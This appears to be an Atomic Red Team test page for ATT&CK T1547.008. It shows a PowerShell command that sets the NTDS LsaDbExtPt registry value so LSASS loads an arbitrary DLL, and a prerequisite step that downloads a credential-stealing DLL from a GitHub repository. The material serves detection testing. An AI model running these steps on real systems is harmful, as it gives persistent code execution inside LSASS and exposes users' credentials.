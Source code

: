 # T1547.008 - Boot or Logon Autostart Execution: LSASS Driver

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/008)

<blockquote>Adversaries may modify or add LSASS drivers to obtain persistence on compromised systems. The Windows security subsystem is a set of components that manage and enforce the security policy for a computer or domain. The Local Security Authority (LSA) is the main component responsible for local security policy and user authentication. The LSA includes multiple dynamic link libraries (DLLs) associated with various other security functions, all of which run in the context of the LSA Subsystem Service (LSASS) lsass.exe process.(Citation: Microsoft Security Subsystem)

Adversaries may target LSASS drivers to obtain persistence. By either replacing or adding illegitimate drivers (e.g., [Hijack Execution Flow](https://attack.mitre.org/techniques/T1574)), an adversary can use LSA operations to continuously execute malicious payloads.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify Registry to load Arbitrary DLL into LSASS - LsaDbExtPt](#atomic-test-1---modify-registry-to-load-arbitrary-dll-into-lsass---lsadbextpt)

<br/>

## Atomic Test #1 - Modify Registry to load Arbitrary DLL into LSASS - LsaDbExtPt

The following Atomic will modify an undocumented registry key that may be abused to load a arbitrary DLL into LSASS.

Upon execution, the registry key will be modified and a value will contain the path to the DLL.
Reference: https://blog.xpnsec.com/exploring-mimikatz-part-1/ and source https://github.com/oxfemale/LogonCredentialsSteal
Note that if any LSA based protection is enabled, this will most likely not be successful with LSASS.exe loading the DLL.

**Supported Platforms:** Windows

**auto_generated_guid:** 8ecef16d-d289-46b4-917b-0dba6dc81cf1

#### Inputs:

| Name     | Description                    | Type | Default Value                                                     |
| -------- | ------------------------------ | ---- | ----------------------------------------------------------------- |
| dll_path | Module to be loaded into LSASS | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;lsass_lib.dll |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NTDS -Name LsaDbExtPt -Value "#{dll_path}"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NTDS" -Name "LsaDbExtPt" -ErrorAction Ignore | Out-Null
```

#### Dependencies: Run with `powershell`!

##### Description: lsass_lib.dll must exist on disk at specified location (#{dll_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/oxfemale/LogonCredentialsSteal/raw/53e74251f397ddeab2bd1348c3ff26d702cfd836/lsass_lib/x64/Release/lsass_lib.dll" -UseBasicParsing -OutFile "#{dll_path}"
```

<br/>
